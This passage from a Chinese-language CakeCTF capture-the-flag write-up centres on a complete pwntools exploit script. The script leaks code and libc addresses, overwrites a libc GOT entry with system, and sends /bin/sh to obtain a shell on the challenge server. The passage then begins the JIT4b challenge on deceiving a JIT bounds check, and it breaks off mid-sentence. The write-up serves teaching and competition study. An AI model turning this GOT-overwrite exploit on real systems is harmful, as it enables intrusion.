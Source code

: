 蓋 `puts` 執行過程中使用到的 function，其在 libc 的 got 就好了。 exploit:

```python
#!/usr/bin/python3

from pwn import *
import sys

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

if len(sys.argv) > 1:
    r = remote('pwn.cakectf.com', 9003)
else:
    r = process('./chall')

r.recvuntil(b'<main> =')
code = int(r.recvline()[:-1], 16) - 0x11b9

r.recvuntil(b'<printf> =')
libc = int(r.recvline()[:-1], 16) - 0x64e10

info(f"""
code: {hex(code)}
libc: {hex(libc)}
""")

addr = code + 0x4000
ABS_got_plt = libc + 0x1eb0a8 # writable
_system = libc + 0x55410
input('>')
r.sendlineafter(b'address: ', hex(ABS_got_plt)[2:])
r.sendlineafter(b'value: ', hex(_system)[2:])
r.sendlineafter(b'data: ', "/bin/sh\x00")

r.interactive()
```



### JIT4b

Target: deceive the JIT compiler

題目為一個 JIT compiler，提供了以下操作:

- Add
- Sub
- Mul
- Div
- Min
- Max

而這些操作會改變 JIT check bound 的範圍，如果以下條件成立 (oob):
